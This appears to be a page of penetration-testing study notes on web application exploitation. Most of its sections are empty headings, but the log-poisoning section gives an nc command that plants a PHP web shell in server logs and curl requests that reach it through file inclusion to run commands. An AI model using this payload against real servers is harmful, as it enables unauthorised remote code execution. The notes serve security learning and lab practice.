 ```yaml
---
title: Web Apps
layout: default
nav_order: 1
parent: Exploitation

---
```


# Web Apps
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }
1. TOC
{:toc}

---

### RFI (Remote File Inclusion)

### LFI (Local File Inclusion)

### Request Inspection (Burpsuite)

### SQL Injection

### XPath Injection
Reference - https://book.hacktricks.xyz/pentesting-web/xpath-injection

### Log File Contamination
1. Poison the log file with PHP code 
```bash
nc -nv $IP 80
```

2. Send the PHP code to the web server 

```bash
kali@kali:~$ nc -nv 10.11.0.22 80
(UNKNOWN) [10.11.0.22] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

HTTP/1.1 400 Bad Request
```

3. Log poisoning on Windows:

```bash
curl http://$IP/file.php?file=c:\xampp\apache\logs\access.log?&cmd=ipconfig
```

4. Log poisoning on Linux:

```bash
curl http://$IP/file.php?file=/var/log/apache2/access.log?cmd=ifconfig
```